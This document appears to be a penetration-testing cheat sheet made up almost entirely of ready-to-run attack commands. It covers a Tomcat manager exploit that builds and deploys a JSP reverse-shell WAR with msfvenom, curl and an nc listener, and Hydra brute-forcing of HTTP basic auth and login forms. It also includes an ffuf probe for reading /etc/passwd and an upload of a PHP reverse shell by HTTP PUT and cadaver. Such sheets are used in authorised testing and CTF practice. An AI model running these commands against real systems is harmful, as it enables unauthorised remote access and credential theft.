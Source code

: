- Tomcat Panel Remote Code Execution

``` 
# Generate payload
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war

# Upload payload
Tomcat6 :
wget 'http://<USER>:<PASSWORD>@<IP>:8080/manager/deploy?war=file:shell.war&path=/shell' -O -

Tomcat7 and above :
curl -v -u <USER>:<PASSWORD> -T shell.war 'http://<IP>:8080/manager/text/deploy?path=/shellh&update=true'

# Listener
nc -lvp <PORT>

# Execute payload
curl http://<IP>:8080/shell/
```

- HTTP bruteforce basic authentication 

`Attacking http-get/http-post login page `
``` 
hydra -l <USER> -V -P <PASSWORDS_LIST> -s 80 -f <IP> http-get /<URL_ENDPOINT>/ -t 15
```

- HTTP GET request 

``` 
hydra <IP> -V -l <USER> -P <PASSWORDS_LIST> http-get-form  "/login/:username=^USER^&password=^PASS^:F=Error:H=Cookie: safe=yes; PHPSESSID=12345myphpsessid" -t <THREADS_NUMBER>
```

- HTTP POST request

``` 
hydra -l <USER> -P <PASSWORDS_LIST> <IP> http-post-form "/webapp/login.php:username=^USER^&password=^PASS^:Invalid" -t <THREADS_NUMBER>
```

- ffuf

``` 
ffuf -u ‘http://<ip_address>/path/to_file.php?FUZZ=/etc/passwd’ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -fs 0
```

- Uploading files using curl

``` 
#Do this to check if you can upload files
curl -u "username:password" -X PUT http://10.10.10.10/path/to/directory/listing

#If it worked upload a reverse shell using CADAVER
cadaver <url>/uploads/
Username:
password:
PUT php-reverse-shell.php
```
